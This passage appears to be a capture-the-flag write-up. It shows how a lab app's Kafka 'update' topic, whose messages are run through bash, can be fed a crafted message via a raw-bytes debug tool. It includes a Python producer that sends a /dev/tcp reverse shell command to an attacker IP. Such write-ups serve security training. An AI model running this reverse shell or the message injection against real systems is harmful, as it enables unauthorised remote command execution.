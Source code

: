 Executing this should show a product named "something" with the same description.

Now log in as admin. To access Debug/DNS sections, enroll a passkey—install Bitwarden in Firefox, create an account, and enroll. A Bitwarden prompt should appear to store the passkey.

Now we have access to three new sections: DNS, Debug, Blog

### DNS
We have the code in the gitea: every time the button `Force Records Re-fetch` is pressed, a message is queued in kafka, in the **update** topic. This message contains as value a path to a shell script that will be executed using bash:
```rust
    let topic = "update".to_string();
    let group = "update".to_string();

    let mut consumer = Consumer::from_hosts(vec![broker.clone()])
        .with_topic(topic)
        .with_group(group)
        .with_fallback_offset(FetchOffset::Earliest)
        .with_offset_storage(Some(GroupOffsetStorage::Kafka))
        .create()
        .expect("Kafka consumer");
// SNIP
        let Ok(message_sets) = consumer.poll() else {
            continue;
        };

        for message_set in message_sets.iter() {
            for message in message_set.messages() {
                let Ok(command) = str::from_utf8(message.value) else {
                    continue;
                };
// SNIP
let mut process = match Command::new("bash").arg("-c").arg(command).spawn() {
                    Ok(process) => process,
                    Err(error) => {
                        println!("[-] {error}");
                        continue;
                    }
                };
```
### Debug
Allows sending raw bytes to a host:port. 

By leveraging the debug tool, it's possible to queue a malicious message in the update topic to execute a **reverse shell**. Since the debug utility only accepts a hex-encoded payload, and Kafka requires messages to follow a specific format (including headers, padding, etc.), the easiest approach is to spawn a personal Kafka instance using Docker. You can then send a message to the **update** topic containing the payload, inspect the raw bytes using **Wireshark**, and finally send those bytes via the debug section.
```python
from kafka import KafkaProducer

producer = KafkaProducer(bootstrap_servers='localhost:9092')
producer.send('update', b'exec bash -i &>/dev/tcp/10.x.x.x/443 <&1')
producer.flush()
```
> In Wireshark, copy bytes from "Short Message Peer to Peer" and "[Malformed Packet: SMPP]".
